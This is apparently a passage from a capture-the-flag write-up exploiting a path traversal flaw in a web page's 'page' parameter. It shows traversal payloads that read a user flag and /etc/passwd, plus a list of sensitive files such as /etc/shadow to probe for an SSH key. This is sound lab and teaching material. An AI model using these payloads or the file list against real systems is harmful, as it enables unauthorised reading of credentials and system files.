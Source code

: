 we got redirected to script.php page which has page as parameter.

We maybe have here Path Traversal vulnerability, so we can read the files through web application responses. So let's try to read the user.txt file of dale user,

```
?page=../../../../../../../../home/dale/user.txt
```

![image](https://user-images.githubusercontent.com/67465230/186944415-790472d7-c2f4-4af7-8378-face69bddd95.png)

we can successfully read it.

Now, since we can include the files, my next target will be /etc/passwd file,

```
?page=../../../../../../../../../etc/passwd
```

![image](https://user-images.githubusercontent.com/67465230/186944463-2f1c67bf-a73d-4709-a290-86cf8006e6dc.png)

and we can clearly see the users as well.

Now, when we try to read the id_rsa key file in the home directory of dale user, there is no such file exist. Maybe it is not present over there and it might be on some other place or maybe the key resides in some other file. 

So, let's make a list of the interesting files where we can find the id_rsa key,

```md
/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab
/etc/ftpaccess
/etc/ftpchroot
/etc/ftphosts
/etc/groups
/etc/grub.conf
/etc/hosts
/etc/hosts.allow
/etc/hosts.deny
/etc/httpd/access.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/httpd.conf
/etc/httpd/logs/access_log
/etc/httpd/logs/access.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/etc/httpd/php.ini
/etc/httpd/srm.conf
/etc/inetd.conf
/etc/inittab
/etc/issue
```